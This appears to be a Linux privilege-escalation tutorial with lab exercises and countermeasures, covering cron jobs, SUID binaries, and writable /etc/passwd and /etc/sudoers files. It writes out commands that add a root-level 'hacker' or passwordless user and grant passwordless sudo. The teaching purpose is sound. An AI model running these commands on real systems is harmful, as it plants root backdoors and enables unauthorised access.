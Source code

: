 # Missconfiguration
## Cron Jobs
Cron is a program that allows users of Unix systems to automatically execute scripts, commands or software at a pre-specified date and time, or on a pre-defined cycle.
Cron jobs, if not configured properly, can be exploited to gain root privileges.

**How Does Cron Work?** 

The behavior of the Cron utility can be fully customized. You can configure the behavior of Cron by editing files called “crontabs”. Unix keeps different copies of crontabs for each user. You can edit your own user’s crontab by running:
````
crontab -e
````
You can also list the current cronjobs for your user by running:

````
crontab -l
````
In Linux systems, the location for the system-wide crontab is /etc/crontab. Cron will run as the root user when executing scripts and commands in this file.

Files in /etc/cron.d are treated the same way as /etc/crontab. They are effectively “crontab snippets”. Their benefit is that they can be added or removed without modifying the central /etc/crontab file.

````
msfadmin@metasploitable:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
````

Each line starting with * or some number is considered as a cron job or task. It is the magic line that cron service will execute.


**Cron enumeration :**
Questions you need to ask yourself:  
1. Are there scripts or binary files in cron jobs that are writable?
2. Can we write to the cron file itself.
3. Is the cron.d directory writable?


To view root’s cron jobs.
````
crontab -l
````

View a user's cron jobs.
````
crontab -u username -l
````

View all the daily cron jobs.
````
ls -la /etc/cron.daily/
````

View a specific daily cron job.
````
less /etc/cron.daily/logrotate
````

You can also list the current cronjobs for your user by running:
````
crontab -l
````

If Cron tasks have been created with elevated privileges, you may not be able to see the created tasks. 
To solve this problem you can use [pspy](https://github.com/DominicBreuker/pspy)

pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.

````
./pspy32 

2022/08/02 05:30:01 CMD: UID=0    PID=9127   | 
2022/08/02 05:30:01 CMD: UID=256  PID=9126   | bash /var/www/backup.sh 
2022/08/02 05:30:01 CMD: UID=32   PID=9125   | /USR/SBIN/CRON 
````

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Download pspy32 in a folder ``/home/alice/your-name/``.
    > scp pspy32 alice@10.12.1.36:/home/alice/Kramer

- For pspy32 to work, you must give it execution rights. 
    > chmod +x pspy32

- Wait 5 minutes, you can go get a coffee.

- Is there a process to launch? If so, which one?
    > A backup script.

- What is the file that is executed?
    > /var/www/backup.sh

- Do you have write permissions on this file?
    > Yes.
    > -rwxrwxrwx  1 firefart root          51 2022-07-31 13:10 backup.sh

- Do a test by overwriting the file with a command line to start a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

- Wait 5 minutes, you can check your email.

AND BIM!

---- 

**Countermeasures :**
If your system uses Cron to automate tasks, make sure that none of the scripts that you run through crontab are editable by unprivileged users, and make sure that your Cron scripts are secure!

NEVER EXECUTE COMMANDS WITH sudo or root user and avoid using SUID binaries in the job.

## SUID/SGID
SUID, which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges whenever a low-privileged user runs the program.

````
alice@metasploitable:~$ ls -la /bin | grep rwsr
-rwsr-xr--  1 root fuse  20056 2008-02-26 13:25 fusermount
-rwsr-xr-x  1 root root  81368 2008-04-14 23:36 mount
-rwsr-xr-x  1 root root  30856 2007-12-10 12:33 ping
-rwsr-xr-x  1 root root  26684 2007-12-10 12:33 ping6
-rwsr-xr-x  1 root root  25540 2008-04-02 21:08 su
-rwsr-xr-x  1 root root  63584 2008-04-14 23:36 umount
````
SUID is a feature that, when used correctly, actually improves Linux security. The problem is that administrators can unknowingly introduce dangerous SUID configurations when installing third-party applications or making logical configuration changes.

Many system administrators don't know where to set the SUID bit and where not to. The SUID bit should not be set, especially on a file editor, because an attacker can overwrite all files on the system.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Display the executables whose SUID bit is set.
    > Your command

- [Look at the gtfobins site to see which executable would give you root privileges](https://gtfobins.github.io/)
    > Your answer

- Execute de the command.
- What is the executable that is exploitable and has the possibility to configure the suid ? 
    > Your answer

And BIM !
<details>
  <summary>Hints</summary>
  The name of the executable starts with ``n``
</details>

---- 

**Countermeasures :**
The SUID bit should not be set on a program that allows you to escape to the shell.
You should never set the SUID bit on a file editor/compiler/interpreter because an attacker can easily read/overwrite all files on the system.

## Interesting Files writable
List world writable files on the system.
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
**Writable /etc/passwd**

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

**Writable /etc/sudoers**

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
